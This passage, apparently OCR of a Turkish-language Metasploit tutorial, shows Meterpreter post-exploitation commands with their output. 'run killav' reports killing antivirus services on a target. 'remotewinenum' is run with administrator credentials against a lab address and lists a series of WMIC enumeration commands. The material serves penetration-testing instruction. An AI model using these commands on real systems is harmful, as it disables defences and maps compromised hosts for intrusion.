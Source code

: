 
```bash
 meterpreter **&gt;** run killav  **[*********]** Killing Antivirus services on the target...
 **[*********]** Killing off cmd.exe...
```



## remotewinenum



`remotewinenum` scripti, hedef sistem hakkında bilgi etmek için kullanılır.


```bash
meterpreter **&gt;** run remotewinenum

**[!]** Meterpreter scripts are deprecated. Try post/windows/gather/wmic_command.
**[!]** Example: run post/windows/gather/wmic_command OPTION**=**value **[**...]
Remote Windows Enumeration Meterpreter Script
This script will enumerate windows hosts **in **the target enviroment
given a username and password or using the credential under witch
Meterpeter is running using WMI wmic windows native tool.
Usage:

OPTIONS:

    -h        Help menu.
    -p   Password of user on target system
    -t   The target address
    -u   User on the target system **(**If not provided it will use credential of process**)** meterpreter **&gt;** run remotewinenum -u administrator -p ihazpassword -t 10.211.55.128 **[*********]** Saving report to /root/.msf4/logs/remotewinenum/10.211.55.128_20090711.0142 
 **[*********]** Running WMIC Commands ....
 **[*********]**     running command wimic environment list
 **[*********]**     running command wimic share list
 **[*********]**     running command wimic nicconfig list
 **[*********]**     running command wimic computersystem list
 **[*********]**     running command wimic useraccount list
 **[*********]**     running command wimic group list
 **[*********]**     running command wimic sysaccount list
 **[*********]**     running command wimic volume list brief
 **[*********]**     running command wimic logicaldisk get description,filesystem,name,size
 **[*********]**     running command wimic netlogin get name,lastlogon,badpasswordcount
 **[*********]**     running command wimic netclient list brief
 **[*********]**     running command wimic netuse get name,username,connectiontype,localname
 **[*********]**     running command wimic share get name,path
 **[*********]**     running command wimic nteventlog get path,filename,writeable
 **[*********]**     running command wimic service list brief
 **[*********]**     running command wimic process list brief
 **[*********]**     running command wimic startup list full
 **[*********]**     running command wimic rdtoggle list
 **[*********]**     running command wimic product get name,version
 **[*********]**     running command wimic qfe list
```

